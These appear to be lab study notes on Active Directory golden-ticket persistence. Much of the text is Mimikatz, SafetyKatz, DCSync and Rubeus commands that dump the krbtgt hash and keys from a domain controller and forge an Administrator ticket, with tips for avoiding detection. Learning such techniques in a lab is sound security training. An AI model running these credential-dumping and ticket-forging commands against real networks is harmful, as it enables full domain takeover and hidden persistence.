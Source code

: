 - Try not to use it in real engagement. Only use it to check for detection or to push boundaries.
- Need Domain admin priv for this attack
- A golden ticket is signed and encrypted by the hash of the krbtgt account which makes it a valid TGT ticket. 
- The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine. 
-  As a good practice, it is recommended to change the password of the krbtgt account twice as password history is maintained for the account.
- Execute mimikatz (or a variant) on DC as DA to get krbtgt hash 
```
Invoke-Mimikatz -Command ‘“lsadump::lsa /patch”’ -Computername dcorp-dc 
```
```
C:\AD\Tools\SafetyKatz.exe '"lsadump::lsa /patch"' 
```
(this is noisy)

-  To use the DCSync feature for getting AES keys for krbtgt account. Use the below command with DA privileges (or a user that has replication rights on the domain object): 
```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit" 
```
- Using the DCSync option needs no code execution on the target DC
- Use active domain user
- Prefer DCSync over lsa /patch
- Run the below command to create a Golden ticket on any machine that has network connectivity with DC
```
C:\AD\Tools\BetterSafetykatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
### Persistence - Golden Ticket - Rubeus
- Use Rubeus to forge a Golden ticket with attributes similar to a normal TGT:
```
C:\AD\Tools\Rubeus.exe golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```
- Above command generates the ticket forging command. Note that 3 LDAP queries are sent to the DC to retrieve the values:
	- To retrieve flags for user specified in /user.
	- To retrieve /groups, /pgid, /minpassage and /maxpassage
	- To retrieve /netbios of the current domain
- If you have already enumerated the above values, manually specify as many you can in the forging command (a bit more opsec friendly).
- The Golden ticket forging command looks like this:
```
C:\AD\Tools\Rubeus.exe golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```